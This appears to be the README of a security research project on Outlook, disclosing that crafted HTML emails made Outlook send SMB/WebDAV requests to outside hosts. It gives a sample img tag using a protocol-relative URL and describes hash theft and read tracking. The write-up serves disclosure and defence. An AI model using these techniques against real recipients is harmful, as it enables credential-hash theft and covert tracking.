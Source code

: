 # The Outlook HTML Leak Test Project!

## What's in "./Schemes-List.xlsx"?

List of URI schemes that might work in Windows. These schemes/protocols can be useful in similar research to find new vulnerabilities or to bypass current protections.
It is interesting that opening this file using MS Office takes longer than usual that may suggest Excel is doing something on some of them. This is a great sign to find bugs/features!

## What's in "./OutlookMailApp/OutlookMailApp/resources/template.html"?

List of HTML tags that might send requests to other resources automatically or by user interaction.
This file has been generated based on the following sources:
* https://github.com/cure53/HTTPLeaks
* https://stackoverflow.com/questions/2725156/complete-list-of-html-tag-attributes-which-have-a-url-value


## Research and the Tales:

While I was working on an assessment, I received an HTML email in Outlook 2010 that contained an image tag similar to:
```
<img src="//example.com/test/image.jpg" >
```

I could see that Outlook was searching for something after opening that email and it took longer than usual to fully open it. I quickly realised that Outlook actually used the URL as `\\example.com\test\image.jpg` and sent `example.com` a SMB request.

Although it did not load the image even when the provided SMB path was valid, it could send my SMB hash to an arbitrary location. This attack did not work on Outlook 2016, however it made me start a small research project in trying different HTML tags that accept URIs with different URI schemes and special payloads.

I managed to test a list of known URI schemes with different targets by designing a quick (and dirty) ASP.NET application that used ASPOSE.Email (https://downloads.aspose.com/email/net) and Microsoft Office Interop libraries. This application generates readonly MSG files similar to the received or sent emails in Outlook. 
The cure53 HTTPLeaks project (https://github.com/cure53/HTTPLeaks) with minor changes was used as the HTML template to generate the emails. The dirty C# code, URI Schemes, formulas, and the HTML template used in this research can be found on this repository.

In order to reduce complications, Wireshark and Process Monitor of Sysinternals Suite were used to detect remote and local filesystem calls.

## Discovered Vulnerability in Outlook

Outlook sent external SMB/WebDAV requests upon opening a crafted HTML email. This could be abused to hijack a victim’s SMB hash or to determine if the recipient had viewed a message. 
This issue was exploited using Outlook default settings that blocked loading external resources such as image files.
These requests were sent immediately after opening an email. When SMB port was blocked, a WebDAV request on port 80 was sent. For more details and the fix, please refer to https://www.nccgroup.trust/uk/about-us/newsroom-and-events/blogs/2018/may/smb-hash-hijacking-and-user-tracking-in-ms-outlook/

### Identified payloads:

#### Remote Calls:
Although the `\\` pattern was blocked by Outlook, a number of other patterns and URI schemes were found that forced Outlook to send requests to remote servers.
The following table shows the identified vectors:

![Outlook Remote Calls](https://github.com/nccgroup/OutlookLeakTest/blob/master/images/remotecalls.png?raw=true)

#### Local Filesystem Calls:
The following URI schemes could also be used target the local filesystem that might be useful:

![Outlook Local Filesystem Calls](https://github.com/nccgroup/OutlookLeakTest/blob/master/images/localfscalls.png?raw=true)


## Copyright and License
OutlookLeakTest project is copyright 2018, NCC Group, and licensed under the Apache license (see LICENSE).
